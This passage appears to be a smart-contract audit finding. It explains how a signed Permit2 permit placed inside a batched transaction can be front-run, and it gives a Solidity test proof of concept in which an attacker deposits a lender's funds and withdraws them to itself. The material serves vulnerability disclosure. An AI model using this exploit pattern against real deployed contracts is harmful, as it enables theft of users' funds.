 #### Technical Details

As stated in the Permit [`EIP`](https://eips.ethereum.org/EIPS/eip-2612#security-considerations):
> Though the signer of a Permit may have a certain party in mind to submit their transaction, another party can always front-run this transaction and call the permit before the intended party. However, the end result is the same for the permit signer.

It's not an issue when `permit()` is executed as a standalone transaction. However, if the transaction is batched, as in this case, it presents a problem.

An attacker can steal a lender deposit, as shown in the following PoC:

```solidity
function testAttack() public {
    batches = zeroBatches;
    token1.mint(lender, amount);
    // Alice signs a transaction allowing a third party to deposit on her behalf
    vm.startPrank(lender);
    token1.approve(address(permit2), 2 ** 256 - 1);
    IAllowanceTransfer.PermitSingle memory permit = IAllowanceTransfer.PermitSingle({
        details: IAllowanceTransfer.PermitDetails({
            token: address(token1),
            amount: uint160(amount),
            expiration: uint48(block.timestamp + 1000),
            nonce: 0
        }),
        spender: address(vault1),
        sigDeadline: block.timestamp + 1000
    });
    bytes memory sig = getPermitSignature(permit, lenderPrivateKey, permit2.DOMAIN_SEPARATOR());

    // Third party want send a transaction to depositPermit2 and mint dr on behalf of Alice
    data = abi.encodeWithSelector(
        ERC20VaultPattern.depositPermit2.selector, permit, address(lender), sig, uint160(amount)
    );
    batch = IBaseLayer.BatchItem(address(vault1), data);
    batches.push(batch);
    data = abi.encodeWithSelector(BaseLayer.drMint.selector, address(vault1), accountIdLender, amount);
    batch = IBaseLayer.BatchItem(address(baseLayer), data);
    batches.push(batch);
    // baseLayer.dispatchBatch(batches); // frontran

    // Bob frontrun the above tx
    IBaseLayer.BatchItem[] storage frontRunBatches = zeroBatches;
    vm.startPrank(maliciousUser);
    // attacker deposits Alice's funds
    data = abi.encodeWithSelector(
        ERC20VaultPattern.depositPermit2.selector, permit, address(lender), sig, uint160(amount)
    );
    batch = IBaseLayer.BatchItem(address(vault1), data);
    frontRunBatches.push(batch);
    // attacker withdraws Alice's funds
    data = abi.encodeWithSelector(BaseLayer.transferOut.selector, address(vault1), address(maliciousUser), amount);
    batch = IBaseLayer.BatchItem(address(baseLayer), data);
    frontRunBatches.push(batch);
    // batch call
    baseLayer.dispatchBatch(frontRunBatches);

    assertEq(vault1.balanceOf(), 0);
    assertEq(token1.balanceOf(address(maliciousUser)), amount);
}
```
